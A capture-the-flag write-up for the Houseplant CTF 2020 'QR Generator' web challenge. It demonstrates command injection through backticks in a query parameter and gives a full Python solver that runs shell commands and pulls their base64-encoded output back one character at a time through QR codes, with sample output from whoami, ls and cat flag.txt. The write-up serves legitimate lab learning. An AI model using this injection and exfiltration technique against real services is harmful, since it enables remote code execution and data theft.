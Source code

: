 # Houseplant CTF 2020 – QR Generator

* **Category:** web
* **Points:** 50

## Challenge

> I was playing around with some stuff on my computer and found out that you can generate QR codes! I tried to make an online QR code generator, but it seems that's not working like it should be. Would you mind taking a look?
> 
> http://challs.houseplant.riceteacatpanda.wtf:30004
> 
> Dev: jammy
>
> Hint! For some reason, my website isn't too fond of backticks...

## Solution

The hint suggests a RCE.

Analyzing the HTML source code, an interesting comment can be found.

```html
<html>

<head>
  <title>QR Code Generator</title>
  <link rel="stylesheet" href="/stylesheets/style.css">
</head>

<body>
  <h1>QR Generator</h1>
  <p>Generate your QR codes here!</p>
  
  <!-- TODO: Fix bug where the QR code only contains 1 character -->
  <img src />
  <input type="text" placeholder="Enter text here..." />
  <script>
    const input = document.querySelector('input');
    const img = document.querySelector('img');

    ['onkeyup', 'onchange'].forEach(action => {
      input[action] = () => {
        img.src = '/qr?text=' + encodeURIComponent(input.value)
      }
    })
  </script>
</body>
</html>
```

The endpoint of this QR code service is `http://challs.houseplant.riceteacatpanda.wtf:30004/qr`.

The QR code produced contains *only the first char inserted*. Using backticks, you can confirm the RCE. For example, sending `echo 'X'` command will return the QR code of the letter `X`.

```
http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text=`echo%20%27X%27`
```

![qr-echo-X.png](qr-echo-X.png)

You can write a [Python script](qr-generator-solver.py) to exfiltrate output of executed commands.

```python
#!/usr/bin/python

import requests
import sys
import time
import os
import base64

# pit3 install pillow
# pip3 install pyqrcode
# pip3 install pyzbar

from PIL import Image
from pyzbar.pyzbar import decode

target_url = "http://challs.houseplant.riceteacatpanda.wtf:30004/qr?text={}"
headers = {
   "User-Agent": "Mozilla/5.0 (Windows; U; MSIE 9.0; Windows NT 9.0; en-US);",
   "Accept-Encoding": "gzip, deflate",
   "Referer": "http://challs.houseplant.riceteacatpanda.wtf:30004/",
}


def execute_command(command):
    print("cmd > {}".format(command))
    command_output = ""
    i = 1
    finished = False
    while not finished:
        payload = "`{}|base64|cut -c{}`".format(command, i)
        qr_code = http_get(payload)
        qr_code_image_name = "qr.png"
        with open(qr_code_image_name, "wb") as qr_code_image:
            qr_code_image.write(qr_code)
        qr_data = decode(Image.open(qr_code_image_name))[0].data.decode("utf-8")
        if len(qr_data.strip()) > 0:
            command_output += qr_data
        else:
            finished = True
        os.remove(qr_code_image_name)
        i += 1
    print(base64.b64decode(command_output))


def http_get(payload):
    response = None
    response_ok = False
    while not response_ok:
        try:
            target_attacked = target_url.format(payload)
            r = requests.get(target_attacked, headers=headers)
            response = r.content
            if r.status_code == 200:
                response_ok = True
                time.sleep(1)
            else:
                print("   ERROR!")
                time.sleep(10)
            if "PNG" not in r.text:
                raise Exception("PNG not found in response!")
        except:
            print("   EXCEPTION!")
            time.sleep(5 * 60)
    return response


execute_command(sys.argv[1])
```

You can interact launching the remote commands.

```
user@vm:~$ python3 -W ignore qr-generator-solver.py whoami
cmd > whoami
b'rtcp\n'
user@vm:~$ python3 -W ignore qr-generator-solver.py ls
cmd > ls
b'README.md\napp\nflag.txt\nnode_modules\npackage.json\nstart.sh'
user@vm:~$ python3 -W ignore qr-generator-solver.py "cat flag.txt"
cmd > cat flag.txt
b'rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}\n'
```

So the flag is the following.

```
rtcp{fl4gz_1n_qr_c0d3s???_b1c3fea}
```